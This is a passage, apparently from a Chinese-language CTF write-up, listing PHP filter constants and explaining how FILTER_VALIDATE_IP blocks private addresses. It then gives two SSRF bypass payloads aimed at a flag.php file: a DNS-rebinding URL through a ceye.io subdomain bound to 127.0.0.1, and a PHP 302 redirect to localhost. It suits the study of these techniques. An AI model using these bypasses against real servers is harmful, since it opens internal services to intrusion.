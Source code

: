 > | FILTER_VALIDATE_MAC     | 276            | PHP5.5起，MAC地址验证过滤器 |
> | FILTER_VALIDATE_DOMAIN  | 277            | 域名验证过滤器              |
>
> **字符串过滤器**
>
> | 常量名                             | 值（PHP7.2.4） | 说明                           |
> | ---------------------------------- | -------------- | ------------------------------ |
> | FILTER_SANITIZE_STRING             | 513            | 字符串过滤器                   |
> | FILTER_SANITIZE_STRIPPED           | 513            | 字符串过滤器的别名             |
> | FILTER_SANITIZE_ENCODED            | 514            | url编码过滤器                  |
> | FILTER_SANITIZE_SPECIAL_CHARS      | 515            | 特殊字符过滤器                 |
> | FILTER_UNSAFE_RAW                  | 516            | 原值过滤器                     |
> | FILTER_SANITIZE_EMAIL              | 517            | 邮件地址过滤器                 |
> | FILTER_SANITIZE_URL                | 518            | url地址过滤器                  |
> | FILTER_SANITIZE_NUMBER_INT         | 519            | 整型过滤器                     |
> | FILTER_SANITIZE_NUMBER_FLOAT       | 520            | 浮点过滤器                     |
> | FILTER_SANITIZE_MAGIC_QUOTES       | 521            | 转义过滤器                     |
> | FILTER_SANITIZE_FULL_SPECIAL_CHARS | 522            | PHP5.3.3起，全部特殊字符过滤器 |
>
> **其他**
>
> | 常量名          | 值（PHP7.2.4）         | 说明                   |
> | --------------- | ---------------------- | ---------------------- |
> | FILTER_DEFAULT  | 与配置的默认过滤器相同 | 与配置的默认过滤器相同 |
> | FILTER_CALLBACK | 1024                   | 回调过滤器             |

```php
# php filter函数
filter_var()	获取一个变量，并进行过滤
filter_var_array()	获取多个变量，并进行过滤
......
# PHP 过滤器
FILTER_VALIDATE_IP	把值作为 IP 地址来验证，只限 IPv4 或 IPv6 或 不是来自私有或者保留的范围
FILTER_FLAG_IPV4 - 要求值是合法的 IPv4 IP（比如 255.255.255.255）
FILTER_FLAG_IPV6 - 要求值是合法的 IPv6 IP（比如 2001:0db8:85a3:08d3:1319:8a2e:0370:7334）
FILTER_FLAG_NO_PRIV_RANGE - 要求值是 RFC 指定的私域 IP （比如 192.168.0.1）
FILTER_FLAG_NO_RES_RANGE - 要求值不在保留的 IP 范围内。该标志接受 IPV4 和 IPV6 值。
```

所以不能用私有的ip了

上面提到的

**DNS-Rebinding攻击绕过**

```php
url=http://r.xxxzc8.ceye.io/flag.php 自己去ceye.io注册绑定127.0.0.1然后记得前面加r
```

**302跳转绕过**

```php
<?php
header("Location:http://127.0.0.1/flag.php");
```
